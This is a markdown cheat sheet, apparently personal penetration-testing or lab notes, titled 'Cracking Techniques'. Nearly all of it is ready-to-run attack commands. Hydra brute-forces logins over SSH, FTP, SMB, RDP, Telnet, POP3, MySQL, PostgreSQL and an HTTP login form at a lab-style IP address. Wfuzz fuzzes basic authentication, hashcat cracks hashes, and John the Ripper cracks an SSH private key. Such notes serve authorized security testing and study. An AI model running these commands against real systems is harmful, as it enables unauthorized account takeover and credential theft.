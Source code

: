 # Cracking Techniques

Usually the tools that I always use are hashcat, wfuzz, hydra and metasploit. 

- [SSH](#ssh)
- [FTP](#ftp)
- [SMB](#smb)
- [RDP](#rdp)
- [Telnet](#rdp)
- [Pop3](#pop3)
- [Mysql](#mysql)
- [Postgresql](#postgresql)
- [HTTP](#http)
- [Hashcat](#hashcat)
- [John](#john)
- [References](#references)

### SSH

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 ssh 

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ssh 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 ssh

# Different Port 
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ssh -s 9999
```

### FTP

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 ftp

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ftp 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 ftp

# Different Port 
hydra  -l user -P /opt/rockyou.txt -f 10.10.8.83 ftp -s 9999
```

### SMB

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 smb

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 smb 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 smb

# With Domain
hydra -l user -P /opt/rockyou.txt -f -m Domain 10.10.8.83 smb 

```

### RDP

```
# Unknown User
hydra -L user.txt -p "Password" -f rdp://10.10.8.83

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f rdp://10.10.8.83

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f rdp://10.10.8.83
```

### Telnet

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 telnet

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 telnet

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 telnet

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 telnet -s 9999
```

### Pop3

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 pop3

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 pop3

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 pop3

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 pop3 -s 9999
```

### Mysql

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 mysql

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 mysql

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 mysql

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 mysql -s 9999
```

### Postgresql

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 postgres 

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 postgres 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 postgres 

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 postgres -s 9999
```

### HTTP

```
=> Hydra

# Unknown User
hydra -f -L user.txt -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

# Unknown Password
hydra -f -l user -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

# Unknown User and Password
hydra -f -L user.txt -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

=> Wfuzz

# Basic Authentication
wfuzz -u http://10.10.8.83 -H "Authorization : Basic FUZZ" -w userpass.txt --h459

wfuzz -w user.txt -w pass.txt --basic FUZZ:FUZ2Z http://10.10.8.83
```


### Hashcat

Please check the mode in the link below:

https://hashcat.net/wiki/doku.php?id=example_hashes

```
hashcat -m 160 crack.txt /opt/rockyou.txt

hashcat -m 160 crack.txt /opt/rockyou.txt --force
```

### John

Usually the john is already inside Kali VM. You can locate it in /usr/share/john/.

```
# Find List of John 
locate john | grep /usr/share/john/ | grep 2 | grep -v "ztex" | grep -v "rules"

# Convert to John (Example)
python /usr/share/john/ssh2john.py id_rsa > hash.txt

# To crack
john --wordlist=/opt/rockyou.txt hash.txt
```

# References

[1] https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux

[2] https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/

[3] https://medium.com/better-programming/can-we-automate-earning-bug-bounties-with-wfuzz-c4e7a96810a5

[4] https://hashcat.net